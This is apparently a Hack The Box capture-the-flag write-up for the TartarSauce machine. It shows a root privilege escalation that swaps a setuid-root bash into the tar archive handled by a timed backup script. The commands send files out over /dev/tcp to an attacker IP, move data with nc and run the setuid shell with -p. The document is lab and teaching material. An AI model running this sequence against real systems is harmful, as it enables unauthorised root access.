








# 30 - Root


# backuperer.timer



# let's locate backuperer


# backuperer runs every 5 minutes 


# See [31 - backuperer](/home/kali/htb/tartarsauce/notes/31%20-%20backuperer.md) for the vulnerability

# <center>Exploit</center>

Let's copy /bin/bash to our box and change permissions on it.

```bash
onuma@TartarSauce:/var/tmp/check/var/www/html$ cat /bin/bash  > /dev/tcp/10.10.14.9/9001
```


```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ nc -lvp 9001 > bash
listening on [any] 9001 ...
connect to [10.10.14.9] from tartarsauce.htb [10.10.10.88] 50286
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ mkdir -p var/www/html/
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ mv bash var/www/html/
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ sudo chown root:root var/www/html/bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ sudo chmod +s var/www/html/bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ sudo tar -zcvf shell.tar.gz var/
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ 
```

# Malicious bash is ready



You may be wondering why I didn't compress the bash from my box, the answer is very simple target platform is different.



# Move the tar file to tartarsauce.htb
```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ cat shell.tar.gz >  /dev/tcp/10.10.10.88/9001
```

# Receive shell.tar.gz
```bash
onuma@TartarSauce:/tmp/tmp.0uDfGnpowp$ nc -lvp 9001 > shell.tar.gz
Listening on [0.0.0.0] (family 0, port 9001)
Connection from [10.10.14.9] port 9001 [tcp/*] accepted (family 2, sport 52472)
```


# Let's check when it is executing next


# After 2 minutes it's executing now .c0c04c should be the tar file we have 30 seconds to change this file




```bash
onuma@TartarSauce:/tmp/tmp.0uDfGnpowp$ cat shell.tar.gz  > /var/tmp/.c0c04c48fbd2ffc51dd20b47a07d2a0eaf529e1f
```
After 30 seconds, the program will compare the decompressed **check** folder with **/var/www/html** if they are not identical, check folder should be kept there for developers to take a look.


# Setuid file execution with -p flag and getting root




-p flag is necessary otherwise bash will launch with real user id instead of effective user id. Bash will drop privileges if ruid != euid for security reasons.